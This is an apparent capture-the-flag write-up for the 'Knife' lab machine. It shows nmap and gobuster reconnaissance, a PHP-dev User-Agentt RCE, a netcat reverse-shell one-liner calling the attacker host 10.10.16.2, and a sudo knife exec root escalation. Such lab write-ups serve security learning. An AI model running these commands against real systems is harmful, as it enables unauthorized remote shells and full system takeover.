

# Knife
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.10.242
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-06 12:29 BST
Nmap scan report for 10.10.10.242 (10.10.10.242)
Host is up (0.17s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.41 seconds

```
- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.242/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x php,txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.242/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2023/08/06 12:31:56 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 5815]
```
- Web server 

[](./images/1.png)

## Foothold/User
- We server's backend
  - `X-Powered-By: PHP/8.1.0-dev`
  
[](./images/2.png)

- Google reveals `RCE` in `User-Agentt`

[](./images/3.png)
[](./images/4.png)

- Let's get reverse shell
  - `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.16.2 7777 >/tmp/f`

[](./images/5.png)
[](./images/6.png)


## Root
- `james` has sudo rights

[](./images/7.png)

- It's a [knife](https://docs.chef.io/workstation/knife/) cmd tool from [Chef](https://docs.chef.io/platform_overview/)
```
james@knife:/$ /usr/bin/knife -h
Chef Infra Client: 16.10.8

Docs: https://docs.chef.io/workstation/knife/
Patents: https://www.chef.io/patents

Usage: knife sub-command (options)
    -s, --server-url URL             Chef Infra Server URL.
        --chef-zero-host HOST        Host to start Chef Infra Zero on.
        --chef-zero-port PORT        Port (or port range) to start Chef Infra Zero on. Port ranges like 1000,1010 or 8889-9999 will try all given ports until one works.
    -k, --key KEY                    Chef Infra Server API client key.
        --[no-]color                 Use colored output, defaults to enabled.
    -c, --config CONFIG              The configuration file to use.
        --config-option OPTION=VALUE Override a single configuration option.
        --defaults                   Accept default values for all questions.
    -d, --disable-editing            Do not open EDITOR, just accept the data as is.
    -e, --editor EDITOR              Set the editor to use for interactive commands.
    -E, --environment ENVIRONMENT    Set the Chef Infra Client environment (except for in searches, where this will be flagrantly ignored).
        --[no-]fips                  Enable FIPS mode.
    -F, --format FORMAT              Which format to use for output. (valid options: 'summary', 'text', 'json', 'yaml', or 'pp')
        --[no-]listen                Whether a local mode (-z) server binds to a port.
    -z, --local-mode                 Point knife commands at local repository instead of Chef Infra Server.
    -u, --user USER                  Chef Infra Server API client username.
        --print-after                Show the data after a destructive operation.
        --profile PROFILE            The credentials profile to select.
    -V, --verbose                    More verbose output. Use twice (-VV) for additional verbosity and three times (-VVV) for maximum verbosity.
    -v, --version                    Show Chef Infra Client version.
    -y, --yes                        Say yes to all prompts for confirmation.
    -h, --help                       Show this help message.

Available subcommands: (for details, knife SUB-COMMAND --help)
```

- Check [GTFOBins](https://gtfobins.github.io/gtfobins/knife/)
  - `sudo knife exec -E 'exec "/bin/sh"'`


